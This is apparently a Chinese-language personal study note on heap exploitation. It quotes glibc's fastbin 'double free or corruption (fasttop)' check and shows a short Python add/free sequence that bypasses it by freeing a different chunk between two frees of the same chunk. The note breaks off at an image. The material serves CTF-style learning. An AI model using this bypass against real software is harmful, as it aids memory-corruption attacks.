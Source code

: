 

源码

```c
if (__builtin_expect (old == p, 0))
 { errstr = "double free or corruption (fasttop)"; 
goto errout; }

```

old是上次free的堆块，p是这次free的。如果连个相等，则报错。所以绕过机制为：在两次free中间夹一次free其它堆块。



```python
add(0,0x68)
add(1,0x68)

free(0)
free(1)
free(0)
```



【10.28看到这里啦】



free掉1号块之后

![upload successful](/images/pasted-120.png)
